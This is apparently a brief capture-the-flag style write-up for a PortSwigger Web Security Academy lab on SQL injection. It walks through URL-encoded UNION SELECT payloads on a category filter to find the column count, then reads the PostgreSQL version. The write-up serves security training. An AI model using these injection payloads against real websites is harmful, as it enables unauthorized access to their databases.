

# [SQLi: UNION, Finding Column Count](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)

Determining the number of columns needed for a union attack for this lab can be done by adding `null` until it works:

- ❌ `/filter?category=Gifts%27%20union%20select%20null--`
- ❌ `/filter?category=Gifts%27%20union%20select%20null,null--`
- ✅ `/filter?category=Gifts%27%20union%20select%20null,null,null--`

This back-end is PostgreSQL, demonstrated via `/filter?category=Gifts%27%20union%20select%20null,version(),null--`:

